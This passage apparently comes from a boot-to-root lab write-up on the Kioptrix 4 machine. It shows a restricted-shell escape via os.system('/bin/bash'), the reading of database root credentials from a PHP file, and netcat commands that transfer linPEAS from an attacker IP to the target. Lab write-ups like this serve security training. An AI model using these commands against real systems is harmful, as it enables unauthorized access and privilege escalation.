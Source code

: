 ![Desktop View](/assets/img/posts/2024-06-14-kioptrix-4-boot-to-root/pic24.png)

>If you want to understand why the command “echo os.system(‘/bin/bash’)” allowed us to escape this restricted shell, you can check this page: [Why does “echo os.system(‘/bin/bash’)” work?](https://unix.stackexchange.com/questions/370769/why-does-echo-os-system-bin-bash-work).
{: .prompt-tip }

Now, it's time to check the source code `/var/www/checklogin.php`{: .filepath} web page for database credentials. Indeed I found the root credentials for the database.

![Desktop View](/assets/img/posts/2024-06-14-kioptrix-4-boot-to-root/pic25.png)

- root: `<nopass>`

We’ll back to this later, but for now, let’s enumerate the system to identify any vulnerabilities that could allow us to elevate our privileges. To do that I’ll use [`linPEAS`](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).

On the attacker machine, start a netcat listener with the following command:

```shell
nc -nlvp 7702 < linpeas.sh
```

On the target machine, change your current working directory to a directory where you have write permissions. After that, use netcat to download the file using this command:

```shell
netcat -n 192.168.109.131 > linpeas.sh
```

The last step is to change the permissions of the file to make it executable. Use the following command for that:
